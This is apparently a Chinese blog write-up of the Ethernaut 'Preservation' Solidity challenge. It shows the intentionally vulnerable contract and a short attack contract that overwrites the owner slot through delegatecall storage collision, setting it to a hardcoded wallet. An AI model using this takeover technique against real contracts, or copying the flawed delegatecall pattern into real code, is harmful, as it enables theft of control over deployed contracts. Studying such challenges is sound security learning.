




# Preservation

## 题目

目标：将owner修改为我们的钱包地址

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

## 分析

本题和之前遇到其中一题原理一样，不做多阐述，见本博客文章[security-14]

交易的时候调高gas，否则交易会失败

## 攻击合约

```solidity
contract attack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint _time) public {
    	//形参_time没用到，只是为了函数选择器一致才这么设置的
    	//直接将owner设置为我们的钱包地址，没用到_time
        owner = address(0xd3E65149C212902749D49011B6ab24bba30D97c6);
    }
}
```

## 做题

获取实例，做题





再次调用



通过


